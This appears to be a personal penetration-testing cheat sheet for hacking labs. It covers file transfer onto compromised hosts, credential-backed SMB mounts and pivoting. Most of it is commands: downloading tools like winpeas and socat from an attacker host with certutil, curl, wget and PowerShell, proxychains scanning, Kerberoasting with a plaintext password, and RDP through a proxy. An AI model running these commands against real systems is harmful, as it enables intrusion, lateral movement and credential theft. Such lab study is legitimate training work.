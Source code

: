 
>[! warning] Tool called Hack-tools Extension

Transfer methods Column 
![[Pasted image 20241120063050.png | 450]]


- [ ] File Transfers 

Hosting Python / SMB / ftp
```
python3 -m http.server 80
```

```
python -m pyftpdlib 21
```

```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```


<hr>


Downloading
Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.8\Hackthebox
```



Navigate | Browser


Certutil command 
```
certutil.exe -urlcache -f http://192.168.205.128/winpeas.exe winpeas.exe
```


Curl Command
```
curl 10.200.105.200/socat -o /tmp/socat && chmod +x /tmp/socat
```


Wget
```
wget <LOCAL-IP>/socat -O /tmp/socat
```


Powershell
```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

FTP
```
ftp 10.10.10.10
```


>[!bug ] Metasploit & Evil-winrm

Upload & Download option


<hr>


- [ ] Maintaining Access Overview
![[Pasted image 20241122102719.png]]



- [ ] Pivoting Walkthrough Proxy-Chains (S Shuttle)

```
ssh -f -N -D 9050 -i pivot root@10.10.155.5
```

```
proxychains nmap -p88 10.10.10.225 
```


Scan for open ports
```
proxychains nmap 10.10.10.225 
```


Some times this scan doesn't show anything but you know
something is there
```
proxychains nmap 10.10.10.225 -sT
```


Kerberoasting through Proxy-chains:
```
proxychains GetUserSPNS.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.255 -request
```


RDP through Proxy-chains:
```
proxychains xfreerdp /u:administrator /p"'Hacker321!' /v:10.10.10.225
```

sshuttle
```
sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot" 
```


- [ ] Cleaning Up

```
```